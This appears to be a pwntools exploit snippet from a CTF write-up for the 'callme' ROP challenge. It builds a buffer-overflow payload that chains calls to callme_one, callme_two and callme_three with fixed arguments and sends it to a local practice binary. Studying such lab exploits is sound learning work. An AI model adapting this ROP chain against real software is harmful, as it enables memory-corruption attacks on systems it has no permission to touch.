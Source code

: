 ```python
jump1 = elf.sym['callme_one']
jump2 = elf.sym['callme_two']
jump3 = elf.sym['callme_three']

arg = p32(a2)+p32(a1)+p32(a0)

payload = b'A'*offset + p32(u_g)+p32(0x1)+p32(jump1)+arg + p32(u_g) + p32(0x1) +p32(jump2) + arg + p32(u_g) + p32(0x1) +p32(jump3) + arg

#p = gdb.debug(elf.path)
p = elf.process()

p.recv()
p.sendline(payload)
log.info(p.recvall())
```







